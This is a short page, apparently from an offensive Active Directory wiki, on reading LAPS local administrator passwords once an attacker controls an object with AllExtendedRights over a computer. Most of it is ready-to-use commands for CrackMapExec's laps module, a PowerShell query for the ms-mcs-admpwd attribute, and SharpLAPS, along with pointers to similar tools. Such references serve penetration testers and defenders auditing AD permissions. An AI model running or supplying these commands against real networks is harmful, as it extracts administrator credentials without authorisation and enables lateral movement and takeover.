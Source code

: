 # ReadLAPSPassword

This abuse can be carried out when controlling an object that has `AllExtendedRights` over a target computer. The attacker can then read the LAPS password of the computer account. 

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python) can be used to retrieve LAPS passwords (this only works since v5.1.6).

```bash
# Default command
cme ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD --module laps

# The COMPUTER filter can be the name or wildcard (e.g. WIN-S10, WIN-* etc. Default: *)
cme ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD --module laps -O computer="target-*"
```

There are other alternative like [LAPSDumper](https://github.com/n00py/LAPSDumper) (Python) or [this public module](https://github.com/T3KX/Crackmapexec-LAPS) for CrackMapExec.

Impacket's ntlmrelayx also carries that feature, usable with the `--dump-laps`.
{% endtab %}

{% tab title="Windows" %}
This can be achieved with the Active Directory PowerShell module.

```bash
Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```

[SharpLAPS](https://github.com/swisskyrepo/SharpLAPS) (C#) automates that process. 

```bash
SharpLAPS.exe /user:"DOMAIN\User" /pass:"Password" /host:"192.168.1.1"
```
{% endtab %}
{% endtabs %}
